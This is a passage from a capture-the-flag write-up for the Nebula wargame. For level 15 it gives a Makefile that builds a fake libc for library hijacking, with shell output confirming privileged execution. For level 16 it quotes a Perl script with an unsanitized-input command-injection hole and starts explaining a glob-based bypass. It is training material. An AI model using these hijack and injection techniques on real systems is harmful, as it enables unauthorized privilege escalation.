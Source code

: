 ```bash
FAKELIB=/var/tmp/flag15/tls/i686/sse2/cmov/libc.so.6
FAKEOBJ=libc.o
FAKESRC=libc.c
VER_SCRIPT=version.script
 
all: $(FAKESRC)
 gcc -Wall -fPIC -o $(FAKEOBJ) -c $(FAKESRC)
 gcc -shared -Wl,-Bstatic,--version-script=$(VER_SCRIPT),-soname,libc.so.6 -o $(FAKELIB) $(FAKEOBJ) -static
 
clean:
 rm $FAKEOBJ
 
cleanall:
 rm *.o *.c $(VER_SCRIPT) 
```

Putting them together, we can execute any command, with flag15 privileges:
```bash
level15@nebula:~$ mkdir -p /var/tmp/flag15/tls/i686/sse2/cmov
level15@nebula:~$ /home/flag15/flag15
Segmentation fault
level15@nebula:~$ cat /tmp/out15
You have successfully executed getflag on a target account
```

## Level 16
We have another vulnerable Perl script listening on port 1616. This script forms a command to be executed based on unsanitized user input - the **_$username_** variable:
```perl
$username =~ tr/a-z/A-Z/; # conver to uppercase
$username =~ s/\s.*//;  # strip everything after a space
@output = `egrep "^$username" /home/flag16/userdb.txt 2>&1`;
```

The `$username` variable is first converted to uppercase and everything after a blank space is trimmed. So we have to inject a command there taking into account these restrictions. The solution is taken from [here](http://thisisdearmo.blogspot.com/2012/06/nebula-level-16-solution.html), with small modifications. We create a script (with its name in uppercase) and place it in the `/tmp` folder, where the flag16 user (the owner of thttpd process) can access it. 
```bash
$ ps aux |grep -i  httpd | grep flag16
flag16 736  0.0 0.2 2460 712 ?  Ss   09:34   0:00 /usr/sbin/thttpd -C /home/flag16/thttpd.conf
```

To execute it, we use a feature of bash that searches file names containing replacement characters. An example clarifies this: 
```bash
level16@nebula:~$ mkdir -p dir1/dir2/dir3/dir4
level16@nebula:~$ touch dir1/dir2/dir3/dir4/MYSCRIPT
level16@nebula:~$ ls /*/*/*/*/*/*/MYSCRIPT
/home/level16/dir1/dir2/dir3/dir4/MYSCRIPT
level16@nebula:~$ ls /*/*/*/dir?/*/*/MYSCRIPT
/home/level16/dir1/dir2/dir3/dir4/MYSCRIPT
level16@nebula:~$ ls /*/*/d?r1/*/*/*/MYSCRIPT
/home/level16/dir1/dir2/dir3/dir4/MYSCRIPT
```
